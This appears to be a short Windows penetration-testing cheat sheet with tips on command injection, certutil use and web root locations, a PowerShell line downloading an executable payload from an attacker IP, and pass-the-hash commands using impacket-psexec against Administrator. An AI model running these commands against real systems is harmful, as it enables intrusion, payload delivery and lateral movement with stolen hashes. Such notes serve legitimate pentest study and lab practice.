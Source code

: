 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.
- Generally there are `IIS` on Windows. If there is an Apache web server. It may be initial foothold. Generally, it runs either `XAMPP` or `WAMPP`. The default locations are `C:\inetpub\htdocs` or `C:\xampp\htdocs`.

# File Transfer
**Note: Netcat doesn't know how to handle a staged payload. To get a functional interactive command prompt, we can use Metasploit's `multi/handler` module, which works for the majority of staged, non-staged, and more advanced payloads.**
PowerShell:
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
# Pass The Hash
## psexec.py
```
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM> <user>@<ip>
```
```
python psexec.py -hashes 00000000000000000000000000000000:<NTLM> Administrator@192.168.1.105
```
## smbclient.py
```

```
[HINT](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
## runas
```
runas /user:corp.com\robert powershell.exe
```
